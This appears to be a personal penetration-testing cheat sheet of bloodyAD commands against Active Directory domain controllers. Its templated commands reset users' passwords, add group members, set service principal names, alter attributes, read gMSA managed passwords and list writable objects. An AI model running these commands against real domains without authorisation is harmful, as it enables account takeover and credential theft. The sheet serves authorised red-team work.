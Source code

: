 # personal

## bloodyAD - set user password
#plateform/linux #target/remote #cat/ATTACK
```
bloodyAD --host <dc-fqdn> -d <domain> -u <user> -p <password> -k set password <target-user> <new-password>
```

## bloodyAD - add group member
#plateform/linux #target/remote #cat/ATTACK
```
bloodyAD --host <dc-fqdn> -u <user> -p <password> -d <domain> -k add groupMember <target-group> <trustee>
```

## bloodyAD - set user spn
#plateform/linux #target/remote #cat/ATTACK
```
bloodyAD --host <dc-fqdn> -d <domain> -u <user> -p <password> -k set object <target-user> serviceprincipalname -v '<service>/<spn>'
```

## bloodyAD - set user attribute
#plateform/linux #target/remote #cat/ATTACK
```
bloodyAD --host <dc-fqdn> -d <domain> -u <user> -p <password> -k set object <target-user> <attribute> -v '<value>'
```

## bloodyAD - read gmsa password
#plateform/linux #target/remote #cat/ATTACK
```
bloodyAD --dc-ip <target-ip> --host <dc-fqdn> -d <domain> -u <user> -p <password> -k get object <target-user> --attr msDS-ManagedPassword
```

## bloodyAD - get writable
#plateform/linux #target/remote #cat/ATTACK
```
bloodyAD --dc-ip <target-ip> --host <dc-fqdn> -d <domain> -u <user> -p <password> -k get writable
```

## bloodyAD - get object
#plateform/linux #target/remote #cat/RECON
```
bloodyAD --dc-ip <target-ip> --host <dc-fqdn> -d <domain> -u <user> -p <password> -k get object <target-object>
```
